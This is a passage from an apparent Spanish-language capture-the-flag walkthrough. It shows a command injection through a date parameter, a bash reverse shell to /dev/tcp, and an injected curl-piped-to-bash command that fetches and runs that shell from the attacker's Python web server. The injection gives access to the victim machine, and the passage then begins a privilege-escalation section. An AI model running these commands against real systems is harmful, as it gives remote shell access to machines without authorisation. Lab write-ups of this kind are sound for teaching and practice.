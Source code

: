 
## Command Injection

Luego de enumerar con varios métodos, encontramos que podemos ejecutar comandos en `date=2024-03-23; ...` así que haremos uso esto para acceder a la maquina victima.

![20240323233227.png](20240323233227.png)

Ahora creamos un archivo `index.html`

```python
❯ nano index.html 
```

Que contendrá nuestra revershell:

```python
bash -c 'bash -i &>/dev/tcp/10.10.14.10/443 <&1'
```

Y luego iniciamos un servidor con Python en el puerto 80

```python
❯ python3 -m http.server 80
```

Para luego ejecutar un :

```python
date=2024-03-23; curl+10.10.16.7|bash
```

así deberíamos de obtener un revershell
# Escalada de privilegios

## Usuario - dvir

![20240323233652.png](20240323233652.png)